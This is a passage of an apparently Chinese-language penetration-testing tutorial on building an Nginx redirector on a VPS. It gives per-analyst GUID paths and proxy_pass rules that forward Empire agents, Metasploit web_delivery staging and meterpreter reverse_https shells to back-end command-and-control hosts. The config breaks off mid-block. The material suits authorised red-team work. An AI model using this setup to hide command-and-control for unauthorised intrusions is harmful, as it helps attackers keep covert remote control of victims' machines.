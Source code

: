 首先，将你最喜欢的Linux发行版安装至一台VPS服务器中，你愿意的话也可以将其安装在自己的服务器里。为了方便大家理解，我选择将Ubuntu 16.10安装在一台VPS主机中。如果各位同学在Nginx的安装和运行上遇到了困难的话，可以参阅这份教程[[教程获取]](https://www.digitalocean.com/community/tutorials/how-to-secure-nginx-with-let-s-encrypt-on-ubuntu-16-04)。通过配置之后，我的服务器仅启用了80端口，并且只允许网络流量通过443端口来发送。

在测试开始之前，我们一定要将Nginx配置好，否则代理服务器将会不知道如何去处理那些通信连接。为了防止暴力破解攻击，我们要为每一个分析器分配一个GUID。你可以点击[这里](https://www.guidgenerator.com/)来生成相应的GUID。我所生成的GUID如下表所示：

[![](https://p2.ssl.qhimg.com/t01fc49343463c96f50.png)](https://p2.ssl.qhimg.com/t01fc49343463c96f50.png)

我总共设置了三个分析器，每一个分析器的相关配置信息如下所示：

```
#Analyst 1
location /E0922BB0-684B-4ED3-967E-85D08880CFD5/ `{`
      proxy_redirect off;
      #Empire
      location /E0922BB0-684B-4ED3-967E-85D08880CFD5/e/ `{`
        proxy_pass https://205.232.71.92:443;
      `}`
      #Metasploit
      location /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/ `{`
        #Metasploit exploit/multi/script/web_delivery
        location /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Delivery `{`
          proxy_pass https://205.232.71.92:8080;
        `}`
        #Metasploit Payload windows/x64/meterpreter/reverse_https
        location /E0922BB0-684B-4ED3-967E-85D08880CFD5/m/Pwned `{`
          proxy_pass https://205.232.71.92:80;
        `}`
      `}`
`}`
#Analyst 2
location /30061CD8-0CEE-4381-B3F8-B50DCACA4CC8/ `{`
      proxy_redirect off;
      #Empire
      location /30061CD8-0CEE-4381-B3F8-B50DCACA4CC8/e/ `{`
        proxy_pass https://1.2.3.5:443;
      `}`
      #Metasploit
      location /30061CD8-0CEE-4381-B3F8-B50DCACA4CC8/m/ `{`
        #Metasploit exploit/multi/script/web_delivery
        location /30061CD8-0CEE-4381-B3F8-B50DCACA4CC8/m/Delivery `{`
          proxy_pass https://1.2.3.5:8080;
        `}`
        #Metasploit Payload windows/x64/meterpreter/reverse_https
        location /30061CD8-0CEE-4381-B3F8-B50DCACA4CC8/m/Pwned `{`
          proxy_pass https://1.2.3.5:80;
        `}`
      `}`
`}`
#Analyst 3
location /6012A46E-C00C-4816-9DEB-7B2697667D92/ `{`
      proxy_redirect off;
      #Empire
      location /6012A46E-C00C-4816-9DEB-7B2697667D92/e/ `{`
        proxy_pass https://1.2.3.6:443;
      `}`
      #Metasploit
      location /6012A46E-C00C-4816-9DEB-7B2697667D92/m/ `{`
        #Metasploit exploit/multi/script/web_delivery
        location /6012A46E-C00C-4816-9DEB-7B2697667D92/m/Delivery `{`
          proxy_pass https://1.2.3.6:8080;
        `}`
        #Metasploit Payload windows/x64/meterpreter/reverse_https
        location /6012A46E-C00C-4816-9DEB-7B2697667D92/m/Pwned `{`
```
